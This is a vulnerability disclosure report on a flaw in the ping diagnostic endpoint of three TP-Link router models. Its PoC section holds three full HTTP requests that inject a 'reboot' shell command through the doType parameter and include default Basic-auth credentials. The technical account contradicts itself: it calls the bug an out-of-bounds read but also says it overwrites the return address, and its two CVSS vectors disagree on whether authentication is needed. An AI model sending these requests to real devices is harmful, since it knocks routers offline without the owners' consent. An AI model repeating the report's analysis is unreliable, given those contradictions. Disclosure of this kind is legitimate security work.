






# TP-Link TL-WR841N/TL-WR740N/WR743ND wireless router /userRpm/PingIframeRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR841N V10、TP-Link TL-WR740N V1/V2 and WR743ND V1 wireless router. Its /userRpm/PingIframeRpm implementation has a security vulnerability in processing doType GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR841N V10、TP-Link TL-WR740N V1/V2、WR743ND V1

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR841N is as follows:

```http
GET /YMRZIZIAYMEWMEQA/userRpm/PingIframeRpm.htm?ping_addr=192.168.0.1&doType=ping |reboot;&isNew=old&lineNum=4 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/YMRZIZIAYMEWMEQA/userRpm/PingIframeRpm.htm?ping_addr=192.168.0.1&doType=ping&isNew=old&lineNum=3
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/PingIframeRpm.htm?ping_addr=192.168.1.2&doType=ping& reboot&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/DiagnosticRpm.htm
Upgrade-Insecure-Requests: 1

```

The PoC of WR743ND is as follows:

```http
GET /userRpm/PingIframeRpm.htm?ping_addr=www.baidu.com&doType=| reboot;&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20 HTTP/1.1
Host: 0.0.0.0:49155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49155/userRpm/DiagnosticRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/PingIframeRpm component implements a security vulnerability in processing the doType GET key parameter. The length of the parameter key of doType can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:







After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.







## 5. The basis for judging as a 0-day vulnerability

Search for PingIframeRpm keywords in NVD database, and find three vulnerabilities, namely: CVE-2021-44864, CVE-2017-13772 and CVE-2014-9350, which are denial of service vulnerability of isNew parameter of TP-Link WR886N, stack overflow vulnerability of ping_addr parameter of TP-Link WR940N, and denial of service attack of isNew parameter of TP-Link TL-WR740N. The vulnerability types and parameters of this vulnerability are different, so it is judged as 0-day vulnerability.